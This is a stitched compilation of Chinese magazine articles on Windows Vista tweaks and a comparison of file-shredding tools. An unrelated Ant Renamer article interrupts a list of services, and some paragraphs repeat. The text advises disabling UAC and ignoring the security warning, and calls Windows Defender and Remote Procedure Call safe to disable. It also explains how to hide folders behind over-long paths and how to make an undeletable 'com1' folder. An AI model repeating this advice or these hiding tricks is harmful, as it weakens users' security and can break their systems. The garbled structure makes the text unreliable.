设置好后我们就可以在“Windows日历”中看见添加的中国农历了。如果我们还想添加中国节日的话，那可以重复上面的操作，把订阅的地址改成“http://www.51hnr.com/China32Holidays.ics”就可以了，添加后我们可以看见默认的节日颜色比较淡，不过可以自己来重新设置，设置一个自己喜欢的颜色就可以了（如图2）。

### 十一、取消烦人UAC

UAC相当烦人，我们可以打开“控制面板”→“管理工具”→“本地安全策略”→“本地策略”→“安全选项”，双击“用户账户控制:以管理员批准模式运行所有管理员”，将其设置为“已禁用”即可。

> 关闭后Vista的安全中心会提示：操作系统的总体安全性已降低，不必过于理会。

无可非议，一般软件的更新总会给我们带来更多、更稳定的功能，更重要的是现在有不少的软件会带有漏洞，给我们的安全带来问题。如果有一款软件能够自动识别我们机器里的软件，并自动为我们升级到最新版就好了。有幸的是，迅雷软件助手提供了这样的功能。

我们只要单击工具栏上的“软件升级”按钮，即可看到一个窗口。它会为我们列出我们机器里已经安装的软件，如果有升级版，则会列出。我们可以选中这些软件（默认全部选中），再单击“安装选中升级”按钮将其升级到最新版本。

### 十二、安装最新软件

从http://down.sandai.net/bibei/XLSoftManager.exe处下载并安装“迅雷软件助手”，启动之，单击“软件安装”标签，在其中我们可以单击“一键下载”按钮即可下载迅雷推荐的最新软件（如图6）。由于内置了迅雷的下载，因此速度很快，在下载后还会自行安装，省却了大家很多的麻烦。更重要的是，这些软件都是安全的，不会有任何插件、木马或病毒！

### 十三、揪出害群之马 管理启动软件

Windows中的启动项是非常特殊的，有了它后可以自动启动一些自己需要的程序，但很多的木马也会将其放到启动项中，给我们的安全带来了威胁。而由于Windows中启动项的程序保存的位置众多（有在配置文件中保存的、有在注册表中保存的、有在启动组中保存的），为我们的管理带来了不便。而且，我们能够做的也只是删除，日后要添加时还要记住这些程序的位置，十分麻烦。不过，通过迅雷软件助手可以完全解决。



启动迅雷软件助手，单击最上方的“软件管理”按钮，再单击左侧的“开机启动软件”标签可看到相应的界面，其下列出了本机上的所有启动项。我们可以单击相应项后的“禁用”链接将其禁用，日后如果还想启用，可以单击其后的“启用”链接。

### 十四、学习Windows Vista新特性

建议大家关注Windows Vista的新特性，这可以从主流媒体上获得。不过，http://www.vista123.com/和http://bbs.vista123.com也是相当不错的，大家相互学习交流，共同进步。

## 明白 Windows Vista 服务

相信很多朋友已经用上了Windows Vista，不过Vista对硬件配置的要求也提到了一个新的高度，这并非仅仅是酷炫的Aero主题，因为默认设置下，Windows Vista下随系统自动加载的服务非常之多，如果你的物理内存容量不是太多，那么可能会对系统效率有比较大的影响。

其实，我们完全可以根据实际情况，对相关的服务进行适当的优化，这样可以获得更高的运行效率，你完全不需要去考虑使用第三方的服务软件。

◆文/王志军

### 一、进入服务窗口

按下 “Win+R” 组合键，打开 “运行” 对话框，手工输入 “services.msc”，主界面如图1所示。不过，更为简单的方法是直接单击开始按钮或按下键盘上的Win键，此时可以激活 “开始搜索” 框，在这里输入 “services.msc” 或 “服务”，按下回车键，可以快速进入 “服务” 管理单元窗口。或者，也可以打开控制面板，在右上角的搜索框中输入 “服务”，同样可以快速进入服务窗口。



### 二、服务的禁用和启用



和Windows XP时代一样，在Windows Vista系统下禁用和启用某个服务的操作非常简单，选中服务后双击打开属性对话框，如图2所示，这是Windows Defender的服务属性对话框，当前的服务状态为“已启动”。如果修改服务状态时，只需要在“启动类型”下拉列表框中进行设置，最后单击“确定”按钮即可，不过有时需要重启系统后才能生效。

### 三、服务也需要优化

早在Windows XP时代，我们就已经知道了优化服务的重要性，“一刀切”并不是最理想的选择，很多情况下我们可能并不需要默认启用那么多的服务，虽然说重置服务并不受微软的赞同，但适当优化一下当然无关紧要，再说还有“系统保护”和“备份状态和配置”在后面呢。

从控制面板中选择 “系统和维护→管理工具→服务”，或者在运行对话框中输入 “services.msc” 进入服务窗口，在这里可以根据某个服务的“描述”信息或者双击打开属性窗口后查看该服务的具体作用，如果你认为某个服务没什么可用价值，那么完全可以打开属性窗口，将其设置为“禁用”。

下面所介绍的这些服务，对于个人普通用户来说，在大部分情况下可以将其设置为“禁用”。不过，在操作之前，你可能需要获取管理员级别的权限才行：

-   Application Information：使用辅助管理权限启动应用程序
-   Application Management：为通过组策略部署的软件处理安装、删除以及枚举请求，可以禁用，但禁用以后将无法通过组策略部署软件的安装，不过家庭版没有提供组策略工具，完全可以禁用该服务。
-   Block Level Backup Engine Service：执行块级备份和恢复的引擎，可以禁用该服务。
-   Certificate Propagation：从智能卡传播证书，一般用户根本不会用上这个服务。
-   DFS Replication：在多台PC之间复制文件使其保持同步，可以禁用该服务，但服务器系统除外。
-   Fax：利用计算机或网络上的可用传真资源发送和接收传真，可以禁用，除非你准备使用发送和接收传真。
-   Internet Connection Sharing (ICS)：为家庭和小型办公网络提供网络地址的转换、寻址、名称解析和入侵保护功能，如果你准备组建家庭网络，那么请不要禁用该服务。
-   KtmRm for Distributed Transaction Coordinator：协调MSDTC和核心整备管理器KTM之间的事务。
-   Machine Debug Manager：支持Visual Studio和脚本调试器进行本地和远程调试，可以禁用，但调试器将无法正常工作。
-   Microsoft Iscsi Initiator Service：管理从这台计算机到远程ISCSI目标设备的会话，可以禁用，除非你需要登录或访问ISCSI目标设备。
-   Offline Files：脱机文件服务，假如你很少使用脱机文件的功能，那么完全可以禁用该服务。
-   Print Spooler：将加载到内存中供稍后打印，如果没有安装打印机，那么可以禁用该服务。
-   ReadyBoost：使用ReadyBoost为改进系统性能提供支持，可以禁用，但将无法使用USB存储设备加速系统。

文件扩展名轻松改

文/华军

现在，我们听音乐都喜欢一边看歌词一边听歌，但是在歌词中会有一些垃圾信息，让人感觉很不爽。如果说只是一两首歌词，去掉里边的垃圾信息并不算麻烦， 只要将歌词文件的扩展名LRC修改为TXT，然后用记事本打开相关文件，去掉里边的垃圾信息后，最后再把扩展名修改成LRC就可以了；但是，如果要修改的歌词文件太多，仅仅是重复地修改歌词文件的扩展名，就够让人头疼的了。难道说就没有好的办法了吗？今天我给大家推荐一个扩展名修改工具——Ant Renamer（下载地址：http://www.onlinedown.net/soft/44550.htm）。Ant Renamer不但可以支持修改单个文件的扩展名，更重要的是它支持文件夹操作，只要将相同类型的文件放到一个文件夹下，就可以一次完成所有文件扩展名的修改。下面给大家简要介绍一下它的使用。

-   第一步：Ant Renamer下载安装完毕后，第一次运行时会弹出一个选择软件语言的界面，一定要选中“简体中文”，以方便使用。运行Ant Renamer，其界面如图1所示。
-   第二步：如果说你要将一个文件夹下的所有LRC文件转换成TXT，先单击图1窗口中的“添加目录”按钮，找到LRC文件所在的目录。
-   第三步：单击图1中“操作”按钮；切换到“操作”窗口（如图2），在这个窗口左边的列表框内先选中“更改扩展名”选项，再在右边的文本框内输入TXT，最后单击“开始”按钮，片刻之间，就转换好了。

当然，这个软件支持任意两种文件扩展名的转换，真的是很方便，如果你有兴趣，也赶快试试吧！





> 小提示：
在图2所示的文本框中输入扩展名时一定不要包括点号（即英文状态下的句号）。
转换完毕后你就可以在相关目录下看到与原来文件名对应的TXT文件了，你可以将这些文本文件中的垃圾信息去掉，然后再按照上面所说的步骤把它们转换为LRC文件，就可以正常使用了。

-   Remote Access Connection Manager：管理远程网络拨号和虚拟专用网络连接，可以禁用，如果你并非处于专用网的话。
-   Remote Procedure Call(RPC)：作为终结点映射程序和COM服务控制管理器使用，可以禁用。
-   Remote Procedure Call(RPC) locator：管理RPC名称服务数据库，可以禁用。
-   Remote Registry：使远程用户能够修改计算机上的注册表设置，主要是提供给局域网的管理员使用，家庭用户可以禁用该服务。
-   Routing and Remote Access：提供路由服务，可以禁用。
-   Secondary Logon：在不同凭据下启用启动过程，可以禁用，但禁用该服务之后将无法快速切换用户，也将不能使用其他用户的身份运行程序。
-   Smart Card：管理计算机对智能卡的读取访问，禁用之后将无法读取智能卡，就目前的实际情况而言，可以禁用该服务。
-   Smart Card Removal Policy：允许系统配置为移除智能卡时锁定用户桌面，可以禁用该服务。
-   Terminal Services UserMode Port Redirector：允许为RDP连接定向打印机/驱动程序/端口，如果没有安装打印机的话，可以禁用该服务。
-   Terminal Services：允许用户以交互方式连接到远程计算机，如果你很少用远程连接的功能，可以禁用该服务。
-   Tablet PC Input Service：启用Tablet PC笔和墨迹功能，如果你没有手写板，而且基本上也不准备使用鼠标来模拟手写输入，那么可以禁用该服务。
-   WLAN AutoConfig：枚举WLAN适配器，管理WLAN连接和配置文件，对于没有配备无线网卡的台式机来说，完全没有必要启用。
-   Windows Defender：间谍扫描服务，可以禁用，但禁用之后系统可能将无法预防间谍软件的危害，除非你安装了第三方的防间谍软件。
-   Windows Error Reporting Service：允许在程序停止运行或停止响应时报告错误，并允许提供现有解决方案。可以禁用，但当程序出现错误时，错误报告将无法正确运行，当然也就无法获得解决方案。
-   Windows Image Acquisition(WIA)：为扫描仪和数码相机提供图像采集服务，可以禁用，但禁用之后将无法正常使用数码相机和扫描仪。
-   Windows Media Center Service Launcher：主要用于开机时启动Windows Media Center计划程序和Windows Media Center接收程序服务，如果你没有安装电视卡的话，那么可以禁用该服务。
-   Windows Search：为文件、电子邮件以及其他内容提供内容索引和电子邮件通知，从而对已修改的内容编制索引。可以禁用，但将无法显示项目的虚拟文件夹视图，而是回退为速度较慢的逐项搜索。对小内存机器而言，禁用该服务可以有效提高系统的运行效率。

对于使用笔记本的朋友来说，很多时候会发现这样的怪事：系统托盘区的电源图标和音量图标竟然会消失不见，即使右击任务栏空白处打开属性窗口，切换到“通知区域”选项卡，也会发现这里的“音量”和“电源”两个复选框竟然是灰色的不可选状态，或者是其一显示为灰色，更麻烦的是即使注销或重启系统后仍然不出现相应的图标，虽然不影响系统的正常运行，但总觉得不是很方便。
解决的办法很简单，在开始搜索框输入“services.msc”，进入服务窗口后，双击打开“SSDP Discovery”属性窗口，如图3所示，将其设置为“禁用”或“手动”，不管原来是哪一种情况，总之是重新启动或停止，然后再注销后重新登录，此时可爱的“电源”图标又会回来了！

## 术业有专攻：寻找文件删除的王者

和复制、粘贴一样，删除文件也是最基本的电脑操作之一。不过，在恶意软件日益猖獗的趋势下，顽固文件的隐身之术也越来越高明，很多用户常常会碰到“删不掉”的问题。而且，我们也经常听到用户有这样的抱怨：明明删除了某个文件，但系统重启或运行一段时间后，该文件又不知从哪里冒出来了。由此，我们可以归结为两大类：一类是“看得见的”顽固文件，即想删除某个文件却无法删除；另一类是“看不见的”恶意文件，普通用户根本就无法判断哪些文件应该被删除，连“删什么”都谈不上。要想建立一个安全稳定的工作环境，就必须掌握一些删除文件的实用技巧。“我的电脑我做主”，下面，通过介绍一些优秀的文件删除工具，帮助用户打造一个干净、快速而稳定的系统。

◆文/彭文波

### 追根溯源：文件为何难以删除

### 1. 常见的‘无法删除’症状

下面，列举几种常见的‘无法删除’现象。

#### 现象一：删除文件时，系统提示文件正在使用中

出现这种情况的原因是多方面的，比较常见的主要有：一是程序的某些功能模块正插入到系统进程中，比如某些程序的DLL文件或者可执行程序正在运行，此时利用常规手段是无法删除的；二是某个文件正被运行，比如Office文档或者音频文件正被打开或者播放，此时，文件的删除也是无法正常进行的。如图1所示。



#### 现象二：文件被文件夹伪装保护，用户无法点击进入该文件夹，也无法对文件夹进行删除

一些恶意软件或者木马会伪装成特殊名称的目录，以逃避安全工具的查杀。比如一些程序会替换杀毒软件中的正常模块文件。由于Windows系统本身无法识别此类特殊路径，因此木马病毒就可以起到很好的隐蔽作用。以支持Internet和网络应用的Ws2_32.Dll文件为例，许多病毒会将自己伪装成该文件，从而造成大量软件不能使用。为了进一步隐蔽伪装，该软件会对自己进行特殊化设置，往往会造成系统的文件删除功能无法使用。

#### 现象三：恶意文件的隐蔽式攻击

大多数恶意文件的传播途径十分隐秘，在用户打开一个页面、安装一个软件或者接收一封邮件的时候，它就已经潜入电脑了。以软件捆绑方式为例，当用户在安装软件时，间谍软件会悄悄地自动安装，结果就是间谍程序长期潜伏在计算机系统中而用户根本就不了解；再以网页浏览方式为例，许多恶意文件通过DLL插件、BHO、Winsock LSP等形式对用户的浏览器进行篡改。在这种情况下，用户根本不知道应该删除哪些文件，而且这些恶意文件在形式上历久常新，在功能上花样不断，而作为受害者的用户却苦不堪言，深受其害。

**小技巧**

一般情况下，如果无法删除某个文件，可以依次尝试以下方法：
(1) 注销或重启系统后，以管理员身份登录，尝试删除文件。如果仍未删除，进入Windows安全模式或用启动光盘启动进入纯DOS模式，再次删除。
(2) 删除文件夹时，首先应确定是否有权限删除这个文件或文件夹，同时建议从里往外逐级删除。对于某些文件夹，还可以尝试用WinRAR软件删除。具体方法为：打开WinRAR软件并单击“添加”按钮，在弹出的“压缩文件名和参数”对话框中，选择“压缩后删除源文件”选项，再单击“确定”按钮，完成压缩后即可删除压缩文件。
(3) 在Windows 2000/XP/2003系统中，如果出现无法删除的现象，可以尝试关闭系统还原、防火墙监控、杀毒软件监控等功能后删除。此外，在卸载软件后，系统可能会保留相关进程。这种情况下，需要检查是否退出了与被删文件相关的程序，可以按下【Ctrl+Alt+Del】快捷键打开任务管理器，切换到“进程”选项卡，结束相关进程。
(4) 关闭预览功能再删除。如果在资源管理器中使用了图片、视频的预览功能，那么在删除此类文件时常常不成功。解决的办法是关闭该功能，方法为：单击“开始→运行”，输入：regsvr32 /u shmedia.dll，重启后再次删除该文件。
(5) 磁盘错误。一般情况下，可以运行磁盘扫描，并扫描文件所在分区，扫描前确定已选上修复文件和坏扇区，全面扫描所有选项后再删除文件。此外，也可以利用Windows自带的磁盘扫描删除正在使用的文件。假如要删除D盘下的一个文件，在“命令提示符”窗口中输入：chkdsk d:/x。这时候系统会显示D盘已被强制卸下，所有打开的句柄都将无效，说明D盘上所有打开的文件已被强制关闭。磁盘扫描完毕，就可以删除文件了。注意：此方法不适用于Windows所在的系统磁盘及虚拟内存所在磁盘。如图2所示。



以上只是针对文件删除问题的典型情况描述。实际应用过程中，如果新的病毒从中作梗，情况可能会变得更加复杂，这就需要一些专业软件来协助了。

### 2. 文件删除与粉碎的区别

安装某些清理软件后，通常会出现一些类似“文件粉碎”的选项。那么，粉碎和删除到底有哪些区别呢？

> **【小知识】**
存储在硬盘中的每个文件可分为两部分：文件头和存储数据的数据区。其中，文件头用来记录文件名、文件属性、占用簇号等信息，它被保存在一个簇并映射在文件分配表中；在数据区则保存了真实的数据文件。平常所做的删除，其实只是修改了文件头的前2个代码，真正的文件内容仍保存在数据区中。只有等到将来数据写入，把此数据区覆盖后，才算是彻底删除原来的数据。如果不被后来保存的数据覆盖，它就不会从磁盘上真正被删除。

-   (1) 什么是文件删除
Windows的文件删除方式主要包括普通删除和彻底删除。普通删除方式比较常见，即我们选中文件后，按下键盘Delete按键或者在鼠标右键中选择“删除”选项；彻底删除使用也比较多，用户选择文件之后按下Shift+Delete键，被删除的文件将不会移到回收站而直接从硬盘分区中删除。但是，无论是普通删除还是彻底删除，如果在删除文件之后没有再对硬盘分区进行读写操作，文件数据信息仍将“保留”在硬盘数据区中。因此，通过一些强大的硬盘管理工具或者数据恢复软件，被彻底删除的文件还是有可能被恢复过来。

-   (2) 什么是文件“粉碎”
通过对文件删除的分析可以看到，只有等待新数据进来覆盖后才可能产生真正的删除。如果是“粉碎”文件，在文件删除后，粉碎机就会生成一个与原文件一样大的乱码文件，在当时覆盖掉被删除的文件，然后再把这个乱码文件删除。因此，粉碎文件具有不可恢复性，它将文件数据彻底从硬盘分区中清除，用普通办法将无法恢复。比如，借别人U盘拷贝文件后，如果不希望一些特别机密的重要文件被别人恢复，就可以采取“文件粉碎”的办法让文件销声匿迹。

### 3. 文件删除的测试方法说明

目前，文件强制删除和清理工具有很多，而且在功能上各有差异。为了统一测试标准，下面设置了一些典型的测试方法。

-   (1) 尝试在编辑状态、运行状态下删除文件
大家都有这样一种印象，比如要删除一个文件时，系统会提示删除文件或文件夹时出错。根据提示，当某个文件正在运行时，也是不允许删除的。因此，可以设置这样一种测试方法：使用Word软件打开一个文件，在编辑的状态下尝试删除该文件；运行无界代理软件，直接点击该软件即可运行，在运行状态下尝试删除该文件，系统会提示无法删除。这代表了两种比较典型的文件删除特征。

-   (2) 构造一个特殊字符的文件
我们还会经常遇到一些具有特殊字符的文件，这类字符的文件可以被打开、运行，但在删除的时候系统就往往无法删除。如果这种文件无法被清除，那么木马就可以堂而皇之地在用户系统上运行了。对于这种情况，本例中设置了使用“引号”特殊字符进行构建。测试方法为：使用引号特殊字符构建文件，在命令行模式下输入：md "com1\"，建立com1文件夹。但是，直接删除该文件夹时，系统会提示无法删除。如图3所示。


-   (3) 建立超长目录
下面进行一番特殊的测试，此方法是构造特殊的非常规的路径，即建立超长目录。我们进行以下试验：首先，打开“资源管理器”，在任意一个磁盘（假设是D盘）下建立一个目录good，在此目录下再建立一个子目录123，继续在123子目录下建立一个子目录test，接下来把要隐藏的目录和文件都拷贝到test子目录下。然后，点击向上按钮，回到123子目录，将123子目录改名为“1111……1111”，长度最好超过254位；继续点击向上按钮，把good目录重命名为goodluck123，现在，test子目录的绝对路径就很长了。访问该目录时，会出现一个提示：“无法访问此文件夹，路径太长。”其实，这只是利用了Windows系统的一个小Bug，即：如果建立目录的绝对路径超过254个字符，系统将无法看到。此文件的顽固性在于：删除目录时会弹出一个窗口，提示“无法删除test”，在DOS下同样也无法删除该目录。如图4所示。



根据现象分析以及上面列举的典型构造方法，本文设置了四个测试对象，分别是：一个正在打开的Doc文档，一个正在运行的“无界浏览V9.1版”软件，超长文件夹goodluck123文件夹和利用特殊字符构建的com1文件夹。在软件测试过程中，还将针对阻止文件再次生成的能力、实际删除效果等方面进行综合测试。现在，准备工作已经完毕，谁是文件删除的王者，让我们在测试中见分晓。

## 王组合拳：寻找文件删除的王者

针对顽固文件和恶意隐藏文件这两种情况，在各大下载站点排名和网友反馈的基础上，我们分别使用了一系列组合软件进行测试。这些软件分别是：360文件粉碎器与360安全卫士、金山文件粉碎器与金山清理专家、瑞星粉碎机与卡卡上网助手。其普遍特点是：具有较高的知名度，均出自“名门”，如360、卡巴斯基、金山、瑞星等。

### 1. 360文件粉碎机与360安全卫士

推荐指数：★★★★☆

| 软件名称 | 版本 | 下载地址 |
|---|---|---|
| 360文件粉碎器 | V1.6.0003beta | http://www.360.cn/down/soft_down12.html |
| 360安全卫士 | V4.4 | http://www.360.cn/ |

360文件粉碎机是一款免费使用的文件删除工具，其功能比较全面。

## 系统应用 SOLUTIONS

介绍，它不仅局限于删除当前系统的文件，正在运行的程序和DLL动态连接文件，就连文件粉碎工具本身以及系统文件也可将其一并删掉。

> **小提示**
安装360文件粉碎机的方法有两种，一种是直接通过本文提供的官方地址单独下载文件粉碎器；另一种是通过安装“360安全卫士”后再打开粉碎工具。相比之下，单独下载的文件粉碎机V1.6.0003beta功能要明显强于后者。使用第二种方法时，在“360安全卫士”的主界面中单击“高级”按钮，在弹出的界面中单击“高级工具集”选项卡，即可找到文件粉碎机。

由于360文件粉碎机V1.6.0003beta的功能更强大，因此本文测试以这个单独下载的版本为准。软件的操作界面很简单，最上方是一个有很大空白地方的编辑区，用于显示将要彻底删除的文件、路径等信息；中间排列的五个功能按钮分别是：添加文件、导入文件列表、粉碎选中文件、从列表中移除、退出软件。在最下面是一列具有个性化的复选框选项，可对删除文件进行选择性设置。

# 第1步：添加需要删除的文件和信息

单击“添加文件”按钮，在“选择要删除的文件”对话框内，找到需要删除的文件后。单击“打开”按钮，就可将其载入到“将要被删除”的编辑界面。当然，也可以使用一个最简单的办法，那就是直接把需要粉碎的文件拖拽到文件粉碎机。

# 第2步：导入文件列表

平时，我们可能会面临各种隐形的恶意文件攻击。如果想删除的是进程模块、驱动服务等文件，这对普通用户可能会有一定的难度。360粉碎机在这方面考虑比较周到，免除了用户需要顺藤摸瓜查找的烦恼，只要单击“导入文件列表”按钮，此时就会显示出导入删除文件的相关模式。导入文件列表的方式主要包括：粘贴文件列表、从文本文件导入、从进程模块导入、从驱动/服务导入、扫描系统可疑文件。使用时，选择相应的模式导入即可。

对于剪贴板里的信息文件，选择“粘贴文件”列表选项载入。对于系统内的可疑文件，只要选择“扫描系统可疑文件”选项，稍等片刻就会显示出系统存在危险的可疑文件，并且还会出现危险等级、公司以及文件描述信息等提示。找到并且选中危险等级较高的文件名后，单击“导入选中项”按钮，就可将勾选上的文件导入到将要被删除的编辑区内。如图5所示。

统存在危险的可疑文件，并且还会出现危险等级、公司以及文件描述信息等提示。找到并且选中危险等级较高的文件名后，单击“导入选中项”按钮，就可将勾选上的文件导入到将要被删除的编辑区内。如图5所示。



# 第3步：对顽固文件的删除测试

为了测试对顽固文件的删除能力，下面分别对D盘下面的四个顽固文件进行测试。通过评测，我们发现360文件粉碎器可以删除正在运行的程序和被调用的Word文件。由于goodluck123下面有多个文件，因此软件界面显示所有的文件为六个。“万事俱备，只欠东风。”现在，选中所有的待删除文件，单击“粉碎选中文件”按钮，马上弹出了“文件已全部删除”提示。如图6所示。



测试结果表明，尽管软件提示所有文件已经删除，但超长文件夹goodluck123依然存在，未能有效删除，其他几项则顺利删除。为了验证测试，重新启动360文件粉碎机，并勾选软件右下方的“阻止被删除文件再次生成”选项，重新粉碎该文件夹，依然未能删除。

> **小提示**
列表移除和粉碎文件的区别。如果不想将导入到编辑区的某文件删除，勾选上其文件前的复选框，然后单击“从列表删除”按钮即可。对于确定需要删除的列表文件，应将其前面的“复选框”勾选上。此外，为了防止它们被删除后“死灰复燃”，建议勾选“阻止被删除文件再次生成”的复选框，再单击“粉碎选中文件”按钮，即可将自己确认的可疑文件彻底删除。

# 第4步：使用“360安全卫士”清理恶意文件

在隐蔽文件清理方面，“360安全卫士”提供了一个“清理恶评插件”功能。在系统中，每一款软件以其名称构成一个主题，用户可以通过投票、评论来了解每个软件的安全性、优劣和使用方法。单击【基本状态】界面下的【立即扫描】按钮，软件马上会对系统恶意插件进行扫描。扫描结果被自动归入恶评插件、其他插件和信任插件等类别。然后选中相应的插件，可以对其进行相关操作，如单击【信任选中插件】按钮，可将其放置到信任插件类别中。扫描完毕，点击【立即清理】按钮，再次进行全面扫描，恶意文件已经基本清除。此外，“360安全卫士”还提供了查杀流行木马的功能。如图7所示。

总的来看，360系列组合软件在文件删除方面功能突出，查杀速度快而且占用资源少，并提供了丰富的安全辅助工具，整体安全性能很高。测试过程中，除了对超长目录文件夹的删除略有瑕疵之外，其他方面的表现均十分抢眼。目前，该软件完全免费，人气很足，加上其较高的版本更新频率和对用户反馈的快速反应，是一款值得推荐的安全防护软件。



列表移除和粉碎文件的区别。如果不想将导入到编辑区的某文件删除，勾选上其文件前的复选框，然后单击“从列表删除”按钮即可。对于确定需要删除的列表文件，应将其前面的“复选框”勾选上。此外，为了防止它们被删除后“死灰复燃”，建议勾选“阻止被删除文件再次生成”的复选框，再单击“粉碎选中文件”按钮，即可将自己确认的可疑文件彻底删除。

# 2. 金山文件粉碎器与金山清理专家

推荐指数：★★☆☆☆

| 软件名称 | 版本 | 下载地址 |
| --- | --- | --- |
| 金山文件粉碎器 | V2.5.1 | http://www.greenspe.com/soft/1831.html |
| 金山清理专家 | V2.5.1 | http://www.duba.net/qing |

金山毒霸应该是一款很知名的杀毒软件了。按理说，金山公司推出的“金山文件粉碎器”与“金山清理专家”也应该有不错的表现。根据软件介绍，文件粉碎器符合美国国防部DoD 5220.22-M标准中对机密文件的粉碎处理方式，并且可以在文件被锁定时进行处理。看来，软件所“号称”的功能还是挺强大的，是否真的如此则尚需进一步检验。打开金山文件粉碎器的方法很简单，下载后直接运行即可打开文件粉碎器。

第1步：金山文件粉碎器功能
金山文件粉碎器既支持文件删除，又支持对文件夹的删除操作。在文件粉碎器界面中，单击“添加文件”按钮，能够顺利加入两个文件和一个文件夹。遗憾的是，对于超长目录文件夹goodluck123，则未能加入。如图8所示。



测试结果表明，尽管程序提示删除成功，但需要测试的四个对象均未能删除。关闭时，还出现了错误提示信息。整体来看，金山文件粉碎器的表现一般，与金山毒霸抢眼的表现有些格格不入。试想，如果出现某个恶意的病毒文件，此时选择手动清理肯定会大打折扣。

第2步：恶意文件清理
金山毒霸系统清理专家2.5.1是金山公司2008年推出的一款免费软件，它能够对电脑系统进行全方面检查和维护；通过强大的恶意软件查杀、漏洞修补和系统修复的功能，帮助用户迅速提高系统的安全性。软件界面承袭了金山公司一贯的经典蓝色风格，看上去现代感十足。在操作习惯上，常用按钮操作都放置在界面左边，包括了【健康指数】、【病毒木马防杀】、【恶意软件查杀】、【漏洞修补】、【在线系统诊断】、【安全百宝箱】、【安全资讯】等，单击相应的栏目即可进行操作。在首页界面中，软件可以针对整个系统进行“健康指数”的打分操作，满分为100分。

在恶意软件的分类中，包含了恶意软件、广告软件和隐蔽软件。点击左侧的【恶意软件查杀】按钮，可以检查系统中的恶意软件情况。扫描后，结果可分别自动归类。不过，这样模糊的分类很容易给用户造成误解，例如，隐蔽软件是否属于恶意软件？在同样的操作环境下，金山清理专家检测的恶意软件仅为0项。需要说明的是，金山清理专家列出了专门的系统修复栏目，由于分类比较模糊的缘故，所以导致用户在首页看到的扫描项目总是偏少。如图9所示。



总的来看，金山文件粉碎器表现一般，对于略有难度的顽固文件几乎无法有效删除，甚至会出现系统错误。金山清理专家在软件清理功能上表现中等，对于恶意软件的判断标准略显凌乱。尽管软件界面比较美观，但整体操作设计上仍存在分类不清晰的问题，尤其是对恶意文件的理解很容易让用户感到迷惑。

# 3. 瑞星粉碎机与卡卡上网安全助手

推荐指数：★★☆☆☆

| 软件名称 | 版本 | 下载地址 |
| --- | --- | --- |
| 瑞星粉碎机与卡卡上网安全助手 | V6.0 | http://tool.ikaka.com/ |

瑞星卡卡上网安全助手6.0是一款完全免费的全能型安全工具平台，它集查杀未知病毒、清除流氓软件、系统优化加速、超强系统防护等强大功能为一体，整体优势比较明显。软件沿袭了瑞星杀毒软件一贯的淡蓝色风格，上方的工具栏包括：常用、实时防护、高级工具、在线求助、杀毒软件、防火墙、软件推荐等。界面设计十分紧凑，可以迅速查杀本机已存在的恶意软件，并列出详细信息。软件的优势在于借鉴了许多病毒方面的新技术，如采用瑞星首创“变种共性特征比对”技术，针对家族性较强的病毒进行模糊检测，有效检测的病毒未知变种数相对较高。点击【基本功能】大图标，即可对系统的恶意软件进行扫描。同等条件下，在主界面中，卡卡上网安全助手没有发现恶意及流氓软件。如图10所示。



瑞星文件粉碎机包含在卡卡上网助手的“高级工具”中。打开卡卡上网助手，点击“高级工具”选项卡，在弹出的界面中单击“文件粉碎”图标，即可打开文件粉碎器。测试表明，本文所设置的四个顽固文件测试对象，软件一个也未能删除，而且不能加入长目录文件。单击“粉碎”按钮后，软件会提示“粉碎文件失败”，如图11所示。



在隐蔽的恶意文件删除方面，瑞星卡卡上网安全助手列出了进程、模块信息，用户可以使用此功能自己来判别可能的非法程序，并且结束进程、查找窗口，查找模块等等。此外，软件还列出了所有和系统开机启动过程相关的程序（注册表启动项、服务、登录、浏览器插件等等），并可以编辑每一项如删除、禁止、允许操作。总的来看，瑞星卡卡上网安全助手功能比较细致，但实际处理的表现一般，与用户在清理恶意文件方面的期待还有一定距离。

# 术业有专攻：妙招删除顽固文件与恶意文件

就像武林高手一样，官府的捕快并非一定是天下第一，民间也会有许多隐身的高人。正所谓：“术业有专攻”，针对典型的文件删除现象，我们总结并精选了一系列小巧而优秀的软件。这些软件在删除功能上各有所长，利用它们也许能取得意想不到的效果。在讲述方法上，主要从顽固文件删除和恶意隐蔽文件删除着手，并涉及一些进程方面的知识。

# ## 1. IceSword（冰刃）：删除顽固文件的冷血先锋

推荐指数：★★★★★ 软件下载地址：http://202.38.64.10/~jfpan/

IceSword主要针对顽固文件的删除。在大多数情况下，这款软件主要用于探测系统中的木马后门，快速列举进程、端口、注册表、文件信息等，是一款名副其实的反黑客软件，适用于Windows 2000/XP/2003/Vista操作系统。之所以将这款软件的推荐指数设置为五星级，在于它的删除功能足够方便、足够强大。由于IceSword使用了大量新颖的内核技术，使得许多狡猾的后门软件无处躲藏，因此也赢得了“斩断黑手的利刃”的美名。在众多的安全工具中，IceSword的手工清除功能十分强大。

> > IceSword运行时需要使用管理员权限。如果在本地机器上曾经使用过该软件的老版本，建议重新启动系统，以免发生数据冲突。使用过程中，建议不要激活内核调试器，如softice等软件，否则系统可能崩溃。

第1步：打开文件
IceSword的文件操作与Windows资源管理器类似，目前主要提供了文件删除、复制功能。其特点还是防止文件隐藏，同时可以修改已打开文件（通过复制功能，将复制的目标文件指定为那个已打开文件即可）。用IceSword删除顽固文件的方法很简单，运行IceSword后，进入其文件管理功能，浏览选中顽固文件，直接点右键选择“删除”即可。



通过对上述三个系列软件测试，可以发现，目前专业杀毒公司的软件在文件删除方面的功能差异比较大。相比之下，360系列软件表现比较抢眼，对于大多数顽固文件能够有效删除，而且在恶意文件的处理方面也比较到位。不过，在测试过程中，三款组合软件均未能有效删除超长目录的顽固文件。而事实上，许多恶意软件、病毒木马都喜欢用这些系统漏洞来隐藏攻击性文件。综合上述分析，如果使用大型安全公司的软件来删除文件，建议选择360系列软件。

在IceSword的文件选项中，右键单击待删除对象后，一般会出现“删除”和“强制删除”两个选项。实际使用过程中，如果使用“删除”选项未能有效删除对象，可以尝试使用“强制删除”选项。

测试结果表明，对于360组合、金山组合以及瑞星组合未能有效删除的文件，IceSword几乎“兵不血刃”就可以将其轻松删除，在顽固文件删除的测试方面表现十分优异。此外，对于插入式的恶意隐形文件，IceSword的表现也十分抢眼。假如有一个未知的病毒文件插入了svchost.exe进程，而svchost.exe是系统关键进程，结束它则会使系统崩溃。这时，我们可以在IceSword的进程管理中选中svchost.exe进程并点击右键，选择“模块信息”。然后，在弹出的“进程模块信息”窗口中选择病毒的dll文件，单击“卸除”或“强制解除”按钮，这样就可以将病毒文件从正常的进程中删除了。现在，继续删除顽固的dll病毒文件，相信已经能够正确删除。如图13所示。



# ## 2. Unlocker V1.8.7：删除顽固文件的王牌先锋

